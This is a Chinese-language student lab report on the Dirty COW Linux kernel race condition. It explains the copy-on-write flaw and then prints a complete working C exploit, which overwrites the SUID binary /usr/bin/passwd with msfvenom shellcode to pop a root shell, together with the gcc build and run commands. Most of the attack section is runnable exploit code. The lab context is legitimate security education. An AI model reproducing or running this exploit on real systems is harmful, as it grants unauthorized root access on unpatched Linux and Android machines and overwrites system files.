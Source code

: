# Exp 4 利用Dirty COW攻击操作系统

赵子瑞 PB14000296

## 1. 漏洞介绍  

Dirty COW是一个自Linux内核2.6.22以来就一直存在的一个漏洞, 这个漏洞在2016年的十月份才被发现, 在内核4.4.26及以上的版本中已经被修复. 这个漏洞会影响所有的基于Linux内核的系统, 比如在Android 7即一下的系统, 都被证实可以通过这个漏洞来获得root权限.

这个漏洞的原理是利用多线程写时复制(COW)时的竞争来允许用户对其本来没有足够的权限的文件进行更改. 当有两个线程或者进程去访问同一个文件的时候, 会有一定概率触发一个竞争条件, 这种时候, 在内存被拷贝之前就有一定概率被标记为可以写入, 这样就可以利用这个标记来修改一些原本无法修改的文件.

## 2. PoC

### a. 关键代码解析

```c
map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
```

在攻击之前, 先创建好一个内存映射文件, 其具有读属性, 并且为私有的COW映射.

```c
void* procselfmemThread(void *arg) {
    char *str;
    str = (char*)arg;
    int f = open("/proc/self/mem", O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        lseek(f, map, SEEK_SET);
        c += write(f, str, sc_len);
    }
    printf("thread stopped\n");
}
```

上面这个函数的用途是试图去修改一个被映射到内存的文件, 其在确认修改成功之前会不停地尝试进行修改, 而下面的函数中是另一个用来和写入线程相互竞争的线程, 其核心函数就是madvise, 其用途是告诉内核一些关于内存处理的"提示", 比如这里MADV_DONTNEED, 含义是这些内存在短时间内不会再被访问, 系统可以回收这一块资源.所以程序中总共有两个线程, 第一个线程的作用是试图写入该文件, 这会产生一次COW, 并且随后又会被另外一个线程将这一块内存的拷贝删除, 双方就会往复地进行, 线程1试图写入, 系统就会为其创建一个新的内存的拷贝, 而线程2又将其释放, 当两者交替进行操作的时候, 就有可能一次COW还未被系统释放就被再次写入, 在一些条件下会导致其之间写道原内存上, 这样就达到了对无法写的内存进行读写的操作.

```c
void* madviseThread(void *arg) {
    char *str;
    str = (char*)arg;
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("thread stopped\n");
}
```

由于可以对不可以写入的内存进行写入, 所以可以通过这种方式去修改passwd文件去获得root权限. 完整代码如下

### b. 源代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>

void *map;
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

// change if no permissions to read
char suid_binary[] = "/usr/bin/passwd";

/*
* $ msfvenom -p linux/x64/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
*/ 
unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0xb1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xea, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x31, 0xff, 0x6a, 0x69, 0x58, 0x0f, 0x05, 0x6a, 0x3b, 0x58, 0x99,
  0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53, 0x48,
  0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8,
  0x0a, 0x00, 0x00, 0x00, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73,
  0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};

unsigned int sc_len = 177;


void *madviseThread(void *arg) {
    char *str;
    str = (char*)arg;
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("thread stopped\n");
}

void *procselfmemThread(void *arg) {
    char *str;
    str = (char*)arg;
    int f = open("/proc/self/mem",O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !stop; i++) {
        lseek(f, map, SEEK_SET);
        c += write(f, str, sc_len);
    }
    printf("thread stopped\n");
}

void *waitForWrite(void *arg) {
    char buf[sc_len];

    for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s overwritten\n", suid_binary);
            break;
        }

        fclose(fp);
        sleep(1);
    }

    stop = 1;

    printf("Popping root shell.\n");
    printf("Don't forget to restore /tmp/bak\n");

    system(suid_binary);
}

int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n");
    printf("Backing up %s to /tmp/bak\n", suid_binary);

    asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    system(backup);

    f = open(suid_binary, O_RDONLY);
    fstat(f, &st);

    printf("Size of binary: %d\n", st.st_size);

    char payload[st.st_size];
    memset(payload, 0x90, st.st_size);
    memcpy(payload, sc, sc_len + 1);

    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);

    printf("Racing, this may take a while..\n");

    pthread_create(&pth1, NULL, &madviseThread, suid_binary);
    pthread_create(&pth2, NULL, &procselfmemThread, payload);
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0;
}
```

## 3. 实验结果

编译代码:

```shell
gcc dirtycow.c -lpthread -o get_root
./get_root
```

在科大云的环境中, 去运行程序, 可以得到如下结果:

![](E:\Pictures\Captures\359.png)